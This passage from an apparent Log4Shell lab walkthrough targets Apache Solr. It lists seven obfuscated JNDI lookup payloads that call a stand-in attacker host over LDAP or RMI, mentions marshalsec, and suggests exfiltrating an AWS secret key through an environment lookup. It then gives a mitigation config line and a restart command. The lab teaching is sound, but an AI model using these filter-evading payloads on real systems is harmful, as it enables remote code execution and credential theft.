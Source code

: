 ```
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
```

```
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
```

```
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
```

```
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
```

```
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
```

```
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
```

```
${${::-j}ndi:rmi://attackerendpoint.com/}
```

Note the use of the **`rmi://`** protocol in the last one. This is also another valid technique that can be used with the **`marshalsec`** utility -- feel free to experiment!

Additionally, within the log4j engine, you can expand arbitrary environment variables (if this wasn't already bad enough). Consider the damage that could be done even with remote code execution, but a simple LDAP connection and exfiltration of **`${env:AWS_SECRET_ACCESS_KEY}`**

For other techniques, you are strongly encouraged t do your own research. There is a significant amount of information being shared in this Reddit thread: [https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j\_0day\_being\_exploited\_mega\_thread\_overview/](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j\_0day\_being\_exploited\_mega\_thread\_overview/)

## Mitigation

Now that you have acted as the adversary for a little bit, please take off your hacker hat and let's mitigate the vulnerability on this vulnerable machine! Review the mitigation techniques suggested on the Apache Solr website. [https://solr.apache.org/security.html](https://solr.apache.org/security.html)

One option is to manually modify the `/etc/default/solr.in.sh` **** file with a specific syntax.

The Apache Solr website Security page explains that you can add this specific syntax to the **`solr.in.sh`** file: **`SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"`**

Now that the configuration file has been modified, the service still needs to be restarted for the changed to take effect.

This process may vary between installations, but for this server, you can restart the service with this syntax: `sudo /etc/init.d/solr restart`

## Patching
